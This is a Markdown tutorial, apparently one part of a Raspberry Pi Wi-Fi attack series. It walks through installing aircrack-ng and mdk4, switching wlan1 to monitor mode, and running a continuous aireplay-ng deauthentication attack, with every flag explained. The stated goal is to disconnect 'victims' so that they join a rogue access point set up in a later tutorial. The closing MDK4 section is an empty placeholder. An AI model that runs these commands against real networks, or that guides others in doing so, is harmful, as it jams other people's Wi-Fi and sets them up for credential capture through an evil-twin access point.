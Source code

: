 # WI-FI Jamming with Raspberry PI

If you have read the previous tutorial [Wi-Fi Analysis](../WIFIAnalysis), you know your Wi-Fi environment around your location. Now you can immediately create an [Simple Access Point](../AccessPoint) and wait until the first victims come by themselves. You can also do this process a little faster -> The IEEE 802.11 (_Wi-Fi_) protocol contains the provision for a deauthentication frames.

## Objective

The aim of this tutorial is to speed-up the process that stations will connect to the access point (_which is created in next tutorial_).

## Precondition

You should already have read (_and successful carried out_) the following tutorials.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Wi-Fi Analysis](../WIFIAnalysis)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim wireless-tools

# install needed packages
$ sudo apt install -y aircrack-ng mdk4
```

## Attention

> In this tutorial we need the `wlan1` interface in the so-called monitor mode. You cannot use the `wlan0` interface from the Raspberry PI for this.

If you have already set up an [Access Point](../AccessPoint) and/or a [Captive portal](../CaptivePortal), you should stop them now!

```shell
# stop nodogsplash service
$ sudo systemctl stop nodogsplash

# stop hostapd service
$ sudo systemctl stop hostapd

# stop dnsmasq service
$ sudo systemctl stop dnsmasq
```

## Monitor Mode

The Wi-Fi interface (_wlan1_) must be set into "monitor mode".

```shell
# set interface down
$ sudo ip link set wlan1 down

# turn interface into monitor mode
$ sudo iwconfig wlan1 mode monitor

# set interface up
$ sudo ip link set wlan1 up
```

_Note: Read this [Wikipedia article](https://en.wikipedia.org/wiki/Monitor_mode) to get more information._

## aireplay-ng (Aircrack-ng)

The Aircrack-ng suite includes many tools to assess Wi-Fi networks. Here the focus is on `aireplay-ng` only. 

```shell
# show help (optional)
$ aireplay-ng --help

# start deauthentication attack
$ sudo aireplay-ng -0 0 -a [mac address] -c [mac address] wlan1
```

- `-0` means, deauthentication mode
- `0` means, send continuously deauthentication frames (_otherwise you can set a specific number_)
- `-a [mac address]` means, mac address of the access point
- `-c [mac address]` means, mac address of the station
- `wlan1` means, the interface`(_in monitor mode_)

## MDK4

... in work ...

```shell
#
$
```

[Go Back](../readme.md)
